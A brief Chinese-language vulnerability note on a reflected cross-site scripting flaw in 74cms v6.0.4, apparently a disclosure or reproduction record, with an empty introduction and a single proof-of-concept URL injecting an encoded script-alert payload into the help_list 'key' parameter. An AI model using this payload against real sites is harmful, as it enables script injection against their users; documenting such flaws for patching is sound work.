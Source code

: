 # 74cms v6.0.4 反射型xss

### 一、漏洞简介

### 二、漏洞影响

74cms v6.0.4

### 三、复现过程


```
http://url/index.php?m=&c=help&a=help_list&key=137244gq1lw%253cscript%253ealert%25281%2529%253c%252fscript%253edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88
```